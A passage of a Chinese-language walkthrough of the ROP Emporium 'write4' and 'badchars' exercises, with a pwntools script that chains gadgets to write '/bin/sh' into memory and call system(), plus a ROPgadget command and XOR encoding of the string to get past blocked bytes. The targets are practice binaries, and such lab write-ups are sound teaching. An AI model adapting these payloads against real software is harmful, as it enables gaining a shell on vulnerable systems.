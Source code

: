 按照上述需求，我们可以选择布置好栈，执行 `pop r14 ; pop r15 ; ret` 控制 `r14` 和 `r15`，随后 `mov qword ptr [r14], r15 ; ret` 进行写操作，最后 `pop rdi ; ret` 把写好的 `/bin/sh`（总觉得拿到 shell 比读到 flag 更厉害一点）作为参数传入，需要注意的是字符串需要 8 字节对齐。

```python
from pwn import *

context(arch='amd64', os='linux', log_level='DEBUG')

p = process('./write4')
elf = ELF('./write4')

p.recvuntil('>')

got_start = 0x601000
pop_r14_r15_ret = 0x400890
mov_r14_r15_ret = 0x400820
pop_rdi_ret = 0x400893

payload = flat(['a'*0x28, pop_r14_r15_ret, got_start,'/bin/sh'.ljust(8,'\x00'), mov_r14_r15_ret, pop_rdi_ret, got_start, elf.plt['system']])
p.sendline(payload)

p.interactive()
```

## badchars

题目屏蔽了一些关键字符，并提示了 `XOR`，也就是说我们可以先写入被异或的关键字符，随后通过 gadgets 把它们异或回来。

题目告诉了我们被屏蔽的字符，所以我们可以先通过 `--badbytes` 选项避免指令地址中含有这些字符：

```shell
$ ROPgadget --binary badchars --only 'mov|pop|ret' --badbytes '62|69|63|2f|20|66|6e|73'
```

随后，我们构造异或字符串，与 2 异或即可：

```python
s = '/bin/sh'.ljust(8,'\x00')
for i in range(len(s)):
  print hex(ord(s[i]) ^ 2)
```

得到：

```python
bin_sh = 0x026a712d6c6b602d
```

注意后面会被认为是小端法，所以这里倒序写。

然后，我们挑选如下的 gadgets：

```
pop r12 ; pop r13 ; ret
mov qword ptr [r13], r12 ; ret

pop r14 ; pop r15 ; ret
xor byte ptr [r15], r14b ; ret

pop rdi ; ret
```

